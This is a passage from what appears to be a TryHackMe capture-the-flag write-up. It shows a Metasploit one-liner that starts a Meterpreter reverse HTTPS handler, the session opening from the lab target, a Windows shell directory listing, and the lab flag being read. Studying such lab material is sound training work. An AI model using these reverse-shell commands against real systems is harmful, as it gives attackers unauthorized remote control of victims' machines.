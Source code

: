 We should receive a reverse shell in our metasploit handler :

```console
root@ip-10-10-141-93:~/Desktop# msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost 10.10.141.93;set lport 4444;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => 10.10.141.93
lport => 4444
[*] Started HTTPS reverse handler on https://10.10.141.93:4444
[*] https://10.10.141.93:4444 handling request from 10.10.103.75; (UUID: szvocozr) Staging x86 payload (177241 bytes) ...
[*] Meterpreter session 1 opened (10.10.141.93:4444 -> 10.10.103.75:50134) at 2022-12-10 10:43:02 +0000

meterpreter > 
```
{: .nolineno }

Finally, we can search for our generated flag :

```console
meterpreter > shell
Process 5260 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\thm\Desktop

12/10/2022  10:42 AM    <DIR>          .
12/10/2022  10:42 AM    <DIR>          ..
12/10/2022  10:10 AM             1,621 calc.lnk
12/10/2022  08:34 AM                 0 certutil
12/10/2022  08:14 AM                66 encoded-test.txt
12/10/2022  10:41 AM                52 enc_thm_0YmFiOG_file.txt
12/10/2022  10:43 AM                37 flag.txt
12/10/2022  09:28 AM                 0 hello.txt
12/10/2022  10:39 AM            11,257 liv0ff.csproj
12/10/2022  08:32 AM                 0 out.txt
12/10/2022  10:09 AM               182 output.txt
12/10/2022  08:11 AM                 6 payload.txt
04/14/2022  12:40 PM               955 SysinternalsSuite.lnk
12/10/2022  08:09 AM                 6 test.txt
12/10/2022  08:34 AM                 0 typ
12/10/2022  08:34 AM                 0 type
              14 File(s)         14,182 bytes
               2 Dir(s)  13,955,379,200 bytes free

C:\Users\thm\Desktop>type flag.txt
type flag.txt
THM{23005dc4369a0eef728aa39ff8cc3be2}
```
{: .nolineno }

